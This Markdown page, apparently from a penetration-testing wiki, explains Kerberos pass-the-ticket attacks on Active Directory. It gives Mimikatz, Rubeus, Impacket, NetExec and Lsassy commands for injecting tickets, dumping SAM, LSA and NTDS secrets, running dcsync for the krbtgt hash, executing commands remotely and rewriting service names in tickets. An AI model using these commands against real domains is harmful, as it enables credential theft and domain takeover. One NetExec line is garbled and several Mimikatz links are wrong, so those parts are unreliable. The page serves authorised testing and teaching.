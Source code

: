 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
authors: CyrilleFranchet, ShutdownRepo, mpgn, sckdev
category: ad
---
```


# Pass the ticket

## Theory

There are ways to come across ([cached Kerberos tickets](../credentials/dumping/cached-kerberos-tickets.md)) or forge ([overpass the hash](ptk.md), [silver ticket](forged-tickets/silver.md) and [golden ticket](forged-tickets/golden.md) attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass the ticket](ptt.md). Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems).

## Practice

> [!TIP] convert tickets UNIX <-> Windows
> Using [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) (from the Impacket suite, written in Python).
> 
> ```bash
> # Windows -> UNIX
> ticketConverter.py $ticket.kirbi $ticket.ccache
> 
> # UNIX -> Windows
> ticketConverter.py $ticket.ccache $ticket.kirbi
> ```

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

::: tabs

=== UNIX-like

Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```


=== Windows

The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) using [`kerberos::ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) or [Rubeus](https://github.com/GhostPack/Rubeus).

```powershell
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

```powershell
Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```

It is then possible to list the tickets in memory using the `klist` command.

:::


### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

::: tabs

=== Credentials dumping

The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/sam-and-lsa-secrets.md)).

```bash
netexec smb $TARGETS -k --sam
netexec smb $TARGETS -k --lsa
netexecETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [NetExec](https://github.com/Pennyw0rth/NetExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/lsass.md)).

```bash
netexec smb $TARGETS -k -M lsassy
netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```


=== Command execution

Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts (Python) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets

```bash
netexec winrm $TARGETS -k -x whoami
netexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ([download](https://live.sysinternals.com/)) can then be used to open a cmd using that ticket.

```powershell
.\PsExec.exe -accepteula \\$TARGET cmd
```

:::


### Modifying the SPN

When requesting access to a service, a Service Ticket is used. It contains enough information about the user to allow the destination service to decide to grant access or not, without asking the Domain Controller. These pieces of information are stored in a protected blob inside the ST called PAC (Privilege Attribute Certificate). In theory, the user requesting access can't tamper with that PAC.

Another information stored in the ST, outside of the PAC, and unprotected, called `sname`, indicates what service the ticket is destined to be used for. This information is basically the SPN (Service Principal Name) of the target service. It's split into two elements: the service class, and the hostname.

Their are multiple service classes for multiple service types (LDAP, CIFS, HTTP and so on) (more info on [adsecurity.org](https://adsecurity.org/?page_id=183)). The problem here is that since the SPN is not protected, there are scenarios (e.g. services configured for [constrained delegations](delegations/constrained.md)) where the service class can be modified in the ticket, allowing attackers to have access to other types of services.

::: tabs

=== UNIX-like

This technique is implemented and attempted by default in all [Impacket](https://github.com/SecureAuthCorp/impacket) scripts when doing pass-the-ticket (Impacket tries to change the service class to something else, and calls this "AnySPN").

Impacket's tgssub.py script can also be used for manual manipulation of the service name value. _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding this script is pending._

```bash
tgssub.py -in ticket.ccache -out newticket.ccache -altservice "cifs/target"
```


=== Windows

With [Rubeus](https://github.com/GhostPack/Rubeus), it can be conducted by supplying the `/altservice` flag when using the `s4u` or the `tgssub` modules and the whole SPN can be changed (service class and/or hostname).

```powershell
Rubeus.exe tgssub /altservice:cifs /ticket:"base64 | ticket.kirbi"
```

:::


## Resources

[https://www.secureauth.com/blog/kerberos-delegation-spns-and-more](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more)
